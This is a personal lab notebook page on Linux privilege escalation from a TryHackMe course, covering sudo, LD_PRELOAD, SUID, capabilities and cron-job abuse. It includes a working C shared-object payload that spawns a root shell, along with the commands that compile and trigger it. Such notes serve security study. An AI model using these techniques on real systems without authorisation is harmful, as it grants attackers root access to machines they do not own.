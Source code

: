 	- suid bits
	- sudo 
- pspy64
- ---
### Linux Privileges Escallation
- 👤Nathan Hailu 
- 📅Sat 23 Apr 2022 06:52:26 AM EDT 
- 📍TryHackMe
#### Basic commands
 - to check if program exists 
	 - `which $yourprogram`
 - to give `sudo -l` access
	 - add the following in sudoers file udner #includedir
		- `username ALL=(ALL:ALL) /usr/bin/pico`
- To get Privilege escalating software commands
	- Linux: [GTFOBins](https://gtfobins.github.io/)
	- Windows: [LOLBAS](https://lolbas-project.github.io/#)
- If the System Have GCC installed Use
	- [[General Notes🤷‍♂️#2) LD-preload]]
	- [[General Notes🤷‍♂️#6) PATH exploiting]]
	- Check some Informations from emails
		- `/var/mail` 
--- 
#### 1) Kernel exploit

	-Find The kernel Version on ExploitDB if you got any exploits

#### 2) LD-preload

- LD_PRELOAD is a function that allows any program to use shared libraries
	- `sudo -l`  -> find text "env_keep+=LD_PRELOAD", if it exists....
	- Write a simple C code compiled as a share object (.so extension) file
```Cpp
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void \_init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}		 
```
	gcc -fPIC -shared -o shell.so shell.c -nostartfiles
	sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
#### 3) SUID vuln
`find / -type f -perm -04000 -ls 2>/dev/null`
- The programs listed in the result of the aboves program can excute any thing with out root for exploiting Commands Check [GFObins](https://gtfobins.github.io/) site under SUID vuln. 
#### 4) Capabilities
~ `getcap -r / 2>/dev/null`
>[!info] he programs listed in the result of the aboves program can excute any thing with out root for exploiting Commands Check [GFObins] site under Capabilities. 
#### 5) Cron Jobs
-  `cat /etc/crontab`  -  Check this File content
	- programs listed with `" * * * * * root /home/$myprogram" ` inside it.
	- means will run myprogram with root access everysecond. so changing the content of my program to a reverse shell exploit will give as a access. 
- check the directory 
	- `/etc/cron.d`
	- `/var/spool/cron/crontabs/root`